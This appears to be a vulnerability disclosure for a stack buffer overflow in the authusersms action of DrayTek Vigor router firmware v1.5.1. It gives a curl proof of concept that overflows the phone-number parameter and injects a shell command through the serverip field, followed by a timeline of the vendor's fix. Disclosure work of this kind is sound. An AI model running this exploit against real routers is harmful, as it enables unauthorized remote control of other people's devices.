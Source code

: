 #  a stack buffer over Vulnerability in DrayTek vigor2960，3900，300B in version v1.5.1,The vulnerability allows to execute remote code by unauthorized attacker

the vuln was in mainfunction.cgi .Action of authusersms.

vulnerabilities is stack-base buffer overflows while copying user parameters  formuserphonenumber  to static buffer.

![](./q.jpg)

Attacker can use this vuln to control the devices.

**poc**

```

curl -d "action=authusersms&custom1=1;&custom2=1&custom3=1&formuserphonenumber=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xEC\xC7\x01&URL=www.baidu.com&HOST=123456897&serverip=";ls;echo 'pwn it';&filename=pwn" -X POST http://192.168.0.250/cgi-bin/mainfunciton.cgi

```

**success images**
![](./1.png)
![](./2.png)

**time lines**

It's bug have been report to DrayTek,they confirm it and ask me to request CVE'id by myself acorrding to the github.

04/12/2020 report vuln to DreyTek
04/13/2020 DreyTek confirm it
04/17/2020 DreyTek fixed it and give me a beta version
06/18/2020 DreyTek release a new version.

![](./4.png)

